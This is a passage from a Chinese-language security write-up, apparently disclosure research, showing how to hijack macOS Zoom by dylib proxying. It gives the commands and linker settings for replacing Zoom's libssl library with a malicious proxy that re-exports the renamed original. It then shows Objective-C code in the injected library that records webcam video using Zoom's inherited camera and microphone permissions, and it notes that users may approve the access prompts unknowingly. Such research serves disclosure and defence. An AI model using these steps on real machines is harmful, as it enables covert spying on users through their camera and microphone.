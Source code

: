 并将其保存至/Applications/zoom.us.app/Contents/Frameworks/libssl.1.0.0.dylib。

之后，重新运行Zoom：

```
patrick$ /Applications/zoom.us.app/Contents/MacOS/zoom.us 
zoom zoom: loaded in 39803: /Applications/zoom.us.app/Contents/MacOS/zoom.us
```

可以看到我们的库被Zoom成功加载~

但紧接着Zoom就闪退掉了，这是因为我们的libssl.1.0.0.dylib不是一个ssl库，提供不了任何程序需要的功能，所以Zoom无法启动。

不必担心，这正是dylib proxying的用武之地。

接下来，通过简单的链接器指令，我们可以告诉Zoom，“虽然我们的库没有实现您要查找的必需（ssl）功能，但我们知道谁可以提供”，之后将Zoom指向原始（合法）的ssl库（也就是被我们重命名为_libssl.1.0.0.dylib的库）。

整体流程图如下：<br>[![](https://p0.ssl.qhimg.com/t016158bdfe6db6ee55.png)](https://p0.ssl.qhimg.com/t016158bdfe6db6ee55.png)<br>
为了创建所需的链接器指令，我们在Xcode的“`Other Linker Flags`” 下添加-XLinker -reexport_library，然后添加目标代理库的路径：<br>[![](data:image/png;base64,iVBORw0KGgoAAAANSUhEUgAAAAEAAAABCAYAAAAfFcSJAAAAAXNSR0IArs4c6QAAAARnQU1BAACxjwv8YQUAAAAJcEhZcwAADsQAAA7EAZUrDhsAAAANSURBVBhXYzh8+PB/AAffA0nNPuCLAAAAAElFTkSuQmCC)](https://p1.ssl.qhimg.com/t01f71f63a6c8a35610.png)<br>
要完成代理库的创建，我们还必须更新嵌入式重导出路径reexport（在我们的代理dylib中），以便它指向（虽然已重命名）ssl库。Apple为此提供了install_name_tool工具：

```
patrick$ install_name_tool -change @rpath/libssl.1.0.0.dylib /Applications/zoom.us.app/Contents/Frameworks/_libssl.1.0.0.dylib  /Applications/zoom.us.app/Contents/Frameworks/libssl.1.0.0.dylib
```

现在，我们可以（通过otool）确认我们的代理库引用了原始的ssl库。具体来说就是我们可以观察到在代理dylib中（libssl.1.0.0.dylib）包含一个LC_REEXPORT_DYLIB，它指向原始的ssl库（_libssl.1.0.0.dylib）：

```
patrick$ otool -l /Applications/zoom.us.app/Contents/Frameworks/libssl.1.0.0.dylib 

...
Load command 11
          cmd LC_REEXPORT_DYLIB
      cmdsize 96
         name /Applications/zoom.us.app/Contents/Frameworks/_libssl.1.0.0.dylib
   time stamp 2 Wed Dec 31 14:00:02 1969
      current version 1.0.0
compatibility version 1.0.0
```

重新运行Zoom确认我们的代理库（和原始ssl库）均已加载，并且Zoom可以正常地运行！🔥<br>[![](https://p5.ssl.qhimg.com/t01402d7329f7846122.png)](https://p5.ssl.qhimg.com/t01402d7329f7846122.png)<br>
向Zoom注入恶意库代码的魅力在于其（用户授予的）对麦克风和摄像头的访问权限。将我们的恶意程序库加载到Zoom的进程/地址空间后，**该库将自动继承Zoom的所有访问权限**。

这意味着，如果用户为Zoom提供了对麦克风和摄像头的访问权限（一种可能的情况），则我们注入的库也拥有访问这些设备的同等权限。

如果尚未授予Zoom访问麦克风或摄像头的权限，则我们的恶意库应能够检测到该情况并作出反应（悄悄关闭）。或者我们可以继续尝试访问设备，因为访问提示将“合法地”从Zoom发出，因此很可能会由不知情的用户批准。

为了测试这种“访问权限的继承”，我向注入的库中添加了一些代码，来录制几秒钟的网络摄像头视频：

```
1 
 2  AVCaptureDevice* device = [AVCaptureDevice defaultDeviceWithMediaType:AVMediaTypeVideo];
 3    
 4  session = [[AVCaptureSession alloc] init];
 5  output = [[AVCaptureMovieFileOutput alloc] init];
 6  
 7  AVCaptureDeviceInput *input = [AVCaptureDeviceInput deviceInputWithDevice:device 
 8                                error:nil];
 9
10  movieFileOutput = [[AVCaptureMovieFileOutput alloc] init];
11  
12  [self.session addInput:input];
13  [self.session addOutput:output];
```